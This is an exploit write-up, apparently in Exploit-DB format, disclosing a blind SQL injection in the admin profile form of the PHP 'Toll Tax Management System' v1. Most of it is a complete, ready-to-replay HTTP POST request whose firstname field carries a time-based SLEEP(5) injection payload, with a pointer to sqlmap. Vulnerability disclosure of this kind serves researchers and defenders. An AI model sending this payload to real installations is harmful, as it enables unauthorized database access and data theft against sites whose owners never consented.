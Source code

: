 # Vault

# Exploit Title: 
Blind SQLI in (Toll Tax Management System)
# Date: 
22/09/2023
# Exploit Author: 

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage: 
[https://github.com/oretnom23]()
# Software Link: 
https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html
# Version: 
v1
# Tested on: 
debian

----
# SQLI BLIND   :

SQLI Blind in Admin panel when updating/saving admin profile.

# POC [debian]:

1- login as admin and go to profile [http://10.0.30.0:1337/admin/?page=user] .

2- set you payload in firstname or use sqlmap .

POST /classes/Users.php?f=save HTTP/1.1

Host: 10.0.30.0:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

X-Requested-With: XMLHttpRequest

Content-Type: multipart/form-data; boundary=---------------------------87171060839686939451677610311

Content-Length: 999

Origin: http://10.0.30.0:1337

Connection: close

Referer: http://10.0.30.0:1337/admin/?page=user

Cookie: PHPSESSID=o23q98hs6j8ut4u548ebt8epe4



-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="id"


1

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="firstname"


Adminstrator' AND (SELECT 2171 FROM (SELECT(SLEEP(5)))hgdO)-- EnP

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="middlename"


s

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="lastname"


Admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="username"


admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="password"


-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="img"; filename=""

Content-Type: application/octet-stream


-----------------------------87171060839686939451677610311--


![Drag Racing](https://raw.githubusercontent.com/xcodeOn1/Vault-exploit/main/3-%20more_info.png?token=GHSAT0AAAAAACGVEBFT2AVJ2KNHMZSRY7IMZHVGKWA)


 # Tested  

 Linux - debian

